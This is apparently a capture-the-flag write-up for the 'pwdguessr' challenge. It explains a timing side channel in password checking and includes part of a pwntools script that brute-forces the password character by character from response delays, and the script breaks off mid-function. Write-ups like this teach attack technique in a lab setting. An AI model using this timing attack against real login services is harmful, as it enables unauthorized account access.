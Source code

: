 From the definition of `check_pwd` given in the challenge description, it appears that when submitting a
password there are three possible outcomes:

1. Success - If we get the password entirely correct
2. Delayed Failure - If the attempted password **is not** a prefix of the real password, there will be a 500ms delay
3. Immediate Failure - If the attempted password **is** a prefix of the real password, it will return immediately

Connecting to the challenge with `nc pwdguessr.chal.cybears.io 2323` shows the prompt
```
Welcome, user 5909559.
Please enter your password: 
```
The initial welcome user with ID changes on each connection, this hints at something we discover later which
is that every connection the password changes.

Entering a random password lead to a brief pause, followed by the response
```
Sorry, that password was incorrect. Please enter your password: 
```
!!! note
    The response does not end with a newline, so `recvline` will not work while scripting this

### Bruteforce

To get a better idea of the passwords, a script was written to iteratively bruteforce character by character,
continuing whenever an attempted password does not cause a 500ms delay.

!!! note
    Script requires `pwntools` for providing a nice wrapper around the socket and `tqdm` for progress bars

After a bit of iterating on the script due to realizing a timeout occurred after a while, it looked like
```python
import string
from pwn import *
from tqdm import tqdm

alphabet = string.ascii_lowercase + string.digits + string.ascii_uppercase
host = "pwdguessr.chal.cybears.io"
port = 2323
r = remote(host, port)
user_line = r.recvline().decode()
user = user_line.split(" ")[-1][:-2]
r.recvuntil("Please enter your password: ")

class SuccessfulConnection(Exception):
    pass

class Timeout(Exception):
    pass

class NotFound(Exception):
    pass

def check(password):
    before = time.time()
    r.sendline(password)
    out = r.recv(5)
    if out != b"Sorry":
        if out == b"Conne":
            raise Timeout
```
